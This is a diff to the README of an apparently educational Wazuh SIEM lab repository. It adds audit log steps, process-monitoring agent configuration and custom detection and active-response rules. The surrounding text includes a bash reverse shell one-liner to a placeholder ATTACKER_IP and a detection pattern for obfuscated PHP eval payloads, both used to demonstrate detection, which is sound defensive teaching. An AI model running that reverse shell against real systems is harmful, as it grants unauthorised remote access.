

Before and after one commit to sefatuter/acme-siem, a Markdown page: README.md, the part around one of its changes. Shown at 99% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -752,11 +752,14 @@
 </localfile>
 ```
 
-
 Restart the agent:
 ```sudo systemctl restart wazuh-agent```
 
 Control the audit logs from dashboard: Wazuh Explore -> Discover, Add Filter -> ```location: /var/log/audit/audit.log```
+
+```sudo tail -f /var/log/audit/audit.log```
+```sudo passwd testuser```
+
 
 **Reverse Shell and Active Response:**
 
@@ -771,11 +774,54 @@ On Victim, It opens a reverse shell by making Bash connect to your listener and
 bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1
 ```
 
+Chain rule and groups:
 
-Chain rule and groups
+```nano /var/ossec/etc/rules/local_rules.xml```
+
 ```xml
+<!-- Modify it at your will. local_rules.xml-->
 
+<group name="commands">
+    <rule id="100001" level="0">
+        <location>command_ps-list</location>
+        <description>List of running process.</description>
+        <group>process_monitor</group>
+    </rule>
+
+    <rule id="100002" level="10">
+        <if_sid>100001</if_sid>
+        <if_group>process_monitor</if_group>
+        <match>eval(hex2bin</match>
+        <description>Reverse Shell Detected.</description>
+        <group>process_monitor,attacks</group>
+    </rule>
+
+     <!--
+     Rule to confirm successful process termination via active response.
+     This creates a Level 12 alert in the dashboard.
+    -->
+    <rule id="100003" level="12">
+      <match>AR_CONFIRMATION: SCRIPT=close-port.sh</match>
+     <regex>STATUS=success PID=(\d+)</regex>
+     <description>Active Response: Malicious process was successfully terminated by close-port.sh.</description>
+     <group>active_response,remediation,</group>
+    </rule>
+</group>
 ```
 
-```sudo tail -f /var/log/audit/audit.log```
-```sudo passwd testuser```
+agent.conf of default group:
+```xml
+  <agent_config>
+    <!-- Shared agent configuration here -->
+    <wodle name="command">
+      <disabled>no</disabled>
+      <tag>ps-list</tag>
+      <command>ps -eo user,pid,cmd</command>
+      <interval>10s</interval>
+      <ignore_output>no</ignore_output>
+      <run_on_start>yes</run_on_start>
+      <timeout>5</timeout>
+    </wodle>
+  </agent_config>
+```
+
````
Also changed, not shown: other parts of README.md (+121 -0 lines).
